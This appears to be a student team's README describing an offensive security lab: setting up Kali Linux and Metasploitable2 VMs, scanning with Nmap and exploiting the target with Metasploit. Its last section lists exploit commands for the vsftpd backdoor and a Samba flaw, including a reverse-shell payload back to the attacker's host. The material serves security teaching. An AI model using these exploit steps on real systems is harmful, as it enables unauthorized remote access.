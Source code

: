 # Offensive Security Tools and Research

---

### Group Members
- Ryan Eisenbeis, Grayson Oldham, Owen Richard, Nycahri Griffin

### Project Description

- The purpose of this project is to conduct offensive security research focused on identifying 
vulnerabilities within IT systems and improving cybersecurity defenses. The project will simulate real-world attacks
using a controlled environment that includes a Kali Linux VM and a Metasploitable2 VM, providing a platform for
vulnerability discovery and exploitation. The primary tools used in this research will be Metasploit Framework and Nmap,
focusing on how they can be utilized to find and exploit vulnerabilities.

### Tools Used

- `Oracle VirtualBox VM` a virtualization software used for creating VMs
- `Metasploitable2 VM` a VM intentionally configured to have exploitable vulnerabilities, also the target VM for this project
- `Kali Linux VM` a VM configured with pre-installed offensive security tools, also the attacking VM in this project
- `Nmap` a network mapping Linux tool used to scan IP addresses and ports on a network
- `Metasploit Framework` a penetration testing Linux tool used for identifying and exploiting vulnerabilities on a system
 
---

# Phase 1 Objectives

- Set up the `Kali Linux VM` as the attack system and the `Metasploitable2 VM` as the target.
- Use `Nmap` for port scanning and discovering vulnerabilities on the target system, followed by using the `Metasploit
Framework` to exploit the vulnerabilities.
- Document the technical steps taken and our findings.


# Phase 1.1 - Setting up the Metasploitable 2 VM

- Download `Oracle Virtual Box VM` software from https://www.virtualbox.org
- Download the `Metasploitable2` iso image from http://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download
- Extract the files from the downloaded zip file
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **2 GB Memory**
  + **1 CPU**
  + **Create a Virtual Hard Disk (or Use an Existing Hard Disk File)**
- Install the `Metasploitable2` iso image onto the newly created VM instance
- Change the **Network Adapter** to **Host-only Adapter** in the `Metasploitable2 VM` machine settings
- Start the `Metasploitable2 VM` 


# Phase 1.2 - Setting up the Kali Linux VM
- Download the `Kali Linux` iso image from https://www.kali.org/get-kali/#kali-installer-images
- Create a new VM instance in VirtualBox with the following hardware requirements:
  + **8 GB Memory**
  + **4 CPUs**
  + **Create a Virtual Hard Disk with 80 GB of storage**
- - Install the `Kali Linux` iso image onto the newly created VM instance
- Start the `Kali Linux VM`
- Select "Graphical Install" on the boot up menu
- Choose basic machine preferences
- Provide login credentials
- Choose clock settings
- Partition the Virtual Hard Disk with the following options:
  + **All files in one partition**
  + **Use entire disk**
  + **Select the /dev/sda ATA VBOX HARDDISK partition**
  + **Select "Yes" to write changes to the disk**
  + **Finish partitioning and write changes to disk**
- Select software preferences
- Install the GRUB bootloader on the /dev/sda partition
- Reboot the `Kali Linux VM` and sign in using the login credentials created

# Phase 1.3 - Port Scanning using Nmap

- The first step is to boot up the `Kali Linux VM` and the `Metasploitable2 VM`
- Once both VMs are started, we need to obtain the IP address of the target system
- To do this, run the following command in the `Metasploitable2 VM` terminal

**Displays IP configuration information on the system**
``` 
ifconfig
```

- Next, we will run an `Nmap` port scan to find all the open ports on the `Metasploitable2 VM` using the following command

**Scans all 65,535 ports on the target system and returns every open port**
```
nmap -p- <target ip>
```

- A few exploitable ports that were open on our target system are as follows
  + `ftp port 21`
  + `telnet port 23`
  + `samba port 445`

# Phase 1.4 - Exploiting using Metasploit Framework

- Now that we know the open ports on the target system, we can use the `Metasploit Framework` tool on our `Kali Linux VM` to exploit some vulnerabilities
- Since we know that `ftp port 21` is open, we can exploit an FTP shell access vulnerability on the target system using the following commands

**Loads the exploit to target an FTP backdoor vulnerability granting unauthorized access**
```
use exploit/unix/ftp/vsftpd_234_backdoor
```
**Sets the remote host to the IPv4 address of the target system**
```
set RHOST <target ip>
```
**Runs the exploit**
```
exploit
```

- Next, we can run the following command to gain remote access to the target system via the open `telnet port 23`

**Connects to a remote system using the telnet protocol using the format `service target_ip port_number`**

```
telnet <target ip> 23
```

- We can also access the shell of the target system via the `samba port 445` by using the following commands

**Loads the exploit to target a samba vulnerability**
```
use exploit/multi/samba/usermap_script
```
**Sets remote host IPv4 address of target system**
```
set RHOST <target ip>
```
**Sets payload to open a reverse shell**
```
set payload cmd/unix/reverse
```
**Sets the IPv4 address of host machine where the reverse shell will connect**
```
set LHOST <host ip>
```
**Sets the port on the host machine that will listen for the reverse shell**
```
set LPORT 4444
```
**Runs the exploit**
```
exploit
```